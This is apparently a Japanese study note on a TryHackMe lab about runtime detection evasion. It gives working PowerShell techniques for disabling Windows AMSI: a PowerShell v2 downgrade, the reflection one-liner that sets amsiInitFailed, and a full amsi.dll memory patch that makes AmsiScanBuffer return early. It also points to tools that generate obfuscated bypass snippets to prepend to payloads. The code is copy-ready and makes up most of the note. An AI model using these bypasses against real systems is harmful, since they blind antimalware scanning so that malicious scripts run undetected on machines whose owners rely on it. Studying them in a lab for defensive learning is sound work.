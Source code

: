 # ランタイム検出回避

https://tryhackme.com/r/room/runtimedetectionevasion

## 回避手段

### Powershell ダウングレード

```shell
PowerShell -Version 2

# 確認
$PSVersionTable.PSVersion

Major  Minor  Build  Revision
-----  -----  -----  --------
2      0      -1     -1
```

### リフレクション

amsiInitFailed フィールドが true に設定されると、AMSI は AMSI_RESULT_NOT_DETECTED = 1 で応答する。

```ps
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### amsi.dll パッチ

https://rastamouse.me/memory-patching-amsi-bypass/

```ps
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');

[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

AmsiScanBuffer 関数のベースアドレスに、下記のアセンブリを書き込んでいる。eax レジスタは関数の戻り値に使われる。関数が実行されたらすぐに戻り値（E_INVALIDARG）を返すようにパッチを当てている。

```text
mov eax, 0x80070057
ret
```

## 自動化ツール

### amsi.fail

https://amsi.fail/

AMSI を無効化する難読化スニペットを生成する。ペイロードの先頭にコピペしたりして使う。

### AMSITrigger

https://github.com/RythmStick/AMSITrigger

フラグを立てるシグネチャを自動的に判別する。

```ps
AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
```
